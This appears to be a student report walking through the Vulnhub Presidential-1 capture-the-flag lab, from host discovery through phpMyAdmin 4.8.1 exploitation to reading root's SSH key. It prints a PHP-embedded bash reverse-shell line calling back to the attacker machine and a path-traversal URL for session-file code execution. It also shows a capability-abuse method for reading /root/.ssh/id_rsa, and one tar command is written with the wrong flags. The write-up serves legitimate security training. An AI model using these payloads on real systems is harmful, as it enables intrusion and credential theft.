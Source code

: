 # Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the discovery of live hosts on a network. Executing it helps determine if the presidential machine is connected to the network and identifies its IP address.

Once the IP address of the machine (10.0.2.8) is identified, we proceed to identify the services, open ports, and software versions on it using the `nmap` command.

![Steps of recognition](images/reconnaissance.png)  

The scan reveals that the machine is running a web service on port 80 with HTTP protocol and a remote shell on port 2082 with SSH protocol.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the '/etc/hosts' file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

A 'config.php.bak' file was detected. These files usually contain a backup copy of the original 'config.php' file, which in turn contains important configuration information.

Indeed, the file contains user credentials that may prove useful later.

## Exploiting

UUsing Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt), a single subdomain was found: datasafe.votenow.local.

The subdomain's web page features an access panel to "phpMyAdmin." By entering the previously obtained credentials, it is possible to log in and access a SQL database containing the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella."

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows command execution. Searchsploit provides detailed information about this vulnerability and how it can be exploited.

To exploit this vulnerability it is necessary to:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query on the web page
4) accurately edit the URL.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

After authentication it is possible to execute sql queries on the databases present.

Under normal circumstances, the web application does not interpret or execute code placed within backticks. However, by meticulously crafting the URL and embedding a PHP script within backticks in a SQL query, it becomes possible to execute the script.

The URL must have the following format:
'http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}'
where {cookieValue} is the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:
`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`
and structuring the URL as shown, a reverse shell is obtained on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point, authentication can be done using the previously extracted admin user credentials.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine via SSH protocol is possible.

![Root access](images/ssh_&_final_flag.png)
